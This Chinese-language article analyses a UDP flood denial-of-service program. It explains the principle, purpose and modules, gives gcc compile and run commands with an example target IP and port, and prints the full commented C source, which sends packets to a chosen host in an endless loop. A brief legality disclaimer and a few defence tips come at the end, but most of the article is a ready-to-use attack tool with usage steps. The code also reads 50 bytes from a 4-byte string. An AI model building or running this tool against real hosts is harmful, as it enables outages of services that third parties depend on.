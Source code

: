 # 基于UDP的DDoS攻击程序分析

本文主要分析了一个使用C语言编写的基于UDP协议的DDoS（分布式拒绝服务攻击）程序。下面从**原理**、**目标**、**功能**和**使用方法**四个方面进行详细阐述。

## 一. 原理

该程序利用**UDP洪水攻击**（UDP Flood）的原理，通过UDP协议对目标主机的某个端口持续发送大量的数据包。其目的是通过大量的无状态请求来消耗目标主机的资源或带宽，最终导致目标主机无法响应正常的服务请求。

UDP协议是无连接的，因此可以在不需要建立连接的情况下发送大量数据包，这使得攻击者可以快速而高效地对目标主机进行洪水攻击。通过持续发送数据包，最终可能会导致目标服务器资源耗尽或崩溃，从而达成**拒绝服务**的目的。

## 二. 目标

该程序的主要攻击目标和意图是：
- **模拟UDP洪水攻击**，展示如何通过UDP协议进行拒绝服务攻击。
- **瘫痪目标主机**：通过大量UDP数据包消耗目标服务器的网络带宽和资源。
- **展示网络安全漏洞**：该代码可用于学习网络协议和系统安全的薄弱环节，帮助安全从业者了解和防范此类攻击。

### 风险与危害

这种攻击通过发送大量数据包会导致目标系统：
- **网络带宽的耗尽**：占用大量网络流量，使合法流量无法正常通信。
- **系统资源消耗**：处理大量伪造的数据包会消耗CPU、内存等资源，严重时可能导致系统崩溃。

## 三. 功能

程序的核心功能可以拆解为以下几个模块：

### 1. **主机解析**
通过`gethostbyname()`函数将输入的主机名解析为IP地址。如果解析失败，则程序退出并输出“未知主机”的错误信息。该功能确保攻击程序可以针对主机名和IP地址进行操作。

### 2. **UDP套接字创建**
使用`socket()`函数创建一个UDP套接字。UDP（用户数据报协议）是无连接的协议，因此没有建立连接的额外开销。这使得它成为DDoS攻击的理想选择。

### 3. **目标主机连接**
调用`connect()`函数将套接字与目标主机的IP地址和端口绑定。这一步不会建立真正的连接（因为UDP是无连接的），但设置了要发送数据包的目标。

### 4. **无限循环发送数据包**
程序进入无限循环，通过`send()`函数持续向目标主机发送50字节大小的数据包，内容为"std"。数据包的大小和内容可以根据需要修改，但在当前情况下，每次发送的数据包大小是固定的。

## 四. 使用方法

程序的使用方式如下：

### 1. **编译程序**
首先，需要通过GCC编译器将C语言代码编译为可执行文件。以下是编译命令：
```bash
gcc -o udp_attack udp_attack.c
```

### 2. **运行程序**
运行程序时，需提供目标主机的地址（可以是域名或IP地址）和端口号作为命令行参数：

```bash
./udp_attack <目标主机> <端口号>
``` 
例如:
```bash
./udp_attack 192.168.1.1 80
```
上述命令将对192.168.1.1的80端口发送UDP洪水数据包，持续攻击该端口，直至手动终止程序。

### 3. **攻击过程**
在程序运行后，攻击者将看到类似以下的输出:
```lua
STD.C -- Packeting 192.168.1.1:80
```
此时，程序已经在对目标主机进行UDP洪水攻击。程序通过无限循环发送数据包，持续攻击目标，直至目标主机被迫耗尽资源或攻击者手动停止程序。

## 五. 注意事项
- **合法性** ：该程序展示的攻击行为仅用于网络安全研究或合法测试。任何未授权的攻击都是违法行为，使用此工具进行攻击可能违反相关法律法规。
- **防御措施** ： 为了防范UDP洪水攻击，可以采取如启用防火墙、限制每秒UDP包数量或启用流量分析工具等方式进行防御。

```c
#define STD2_STRING "std"//定义要发送的字符串"std"
#define STD2_SIZE 50 //定义发送数据包的大小
 
#include <stdio.h>
#include <sys/param.h>
#include <sys/socket.h>// 包含套接字库，用于网络通信
#include <netinet/in.h>// 包含用于处理Internet地址族的结构和常量
#include <netdb.h>// 包含用于主机名解析的库
#include <stdarg.h>// 包含变长参数函数库，如用于处理可变参数的函数（如printf）
 
// 声明函数 echo_connect，连接到指定服务器的指定端口
int echo_connect(char *, short);
// 定义 echo_connect 函数，连接到指定的主机和端口
int echo_connect(char *server, short port)
{
   struct sockaddr_in sin;// 定义 sockaddr_in 结构体，存储目标主机的地址信息
   struct hostent *hp;// 定义 hostent 结构体，用于存储由主机名解析出的地址信息
   int thesock;// 定义套接字描述符
   hp = gethostbyname(server);// 通过主机名解析函数获取主机地址信息
   // 如果无法解析主机名，输出错误信息并退出程序
   if (hp==NULL) {
      printf("Unknown host: %s\n",server);
      exit(0);
   }
   // 输出攻击的目标主机和端口信息
   printf(" STD.C -- Packeting %s:%d\n ", server, port);
   // 将sin结构体清零，确保其初始状态为空
   bzero((char*) &sin,sizeof(sin));
   // 将解析到的主机地址复制到sin.sin_addr中
   bcopy(hp->h_addr, (char *) &sin.sin_addr, hp->h_length);
   // 设置sin结构体的地址族为解析出的地址类型
   sin.sin_family = hp->h_addrtype;
   // 将目标端口号转为网络字节序并存储在sin.sin_port中
   sin.sin_port = htons(port);
   // 创建UDP套接字，AF_INET表示IPv4，SOCK_DGRAM表示UDP
   thesock = socket(AF_INET, SOCK_DGRAM, 0);
   // 连接到目标主机和端口
   connect(thesock,(struct sockaddr *) &sin, sizeof(sin));
   // 返回套接字描述符
   return thesock;
}
 
 
main(int argc, char **argv)
{
   int s;// 定义套接字描述符变量
   // 如果命令行参数数量不为3，输出错误提示并退出
   if(argc != 3)
   {
      // 输出正确的程序用法提示信息
      fprintf(stderr, "[STD2.C BY STACKD] Syntax: %s host port\n",argv[0]);
      exit(0);
   }
   // 调用 echo_connect 函数，连接到命令行参数指定的目标主机和端口
   s=echo_connect(argv[1], atoi(argv[2]));
   // 无限循环，持续发送UDP数据包
   for(;;)
   {
       // 通过套接字发送定义的字符串"std"数据包，数据包大小为50字节
      send(s, STD2_STRING, STD2_SIZE, 0);
   }
}
```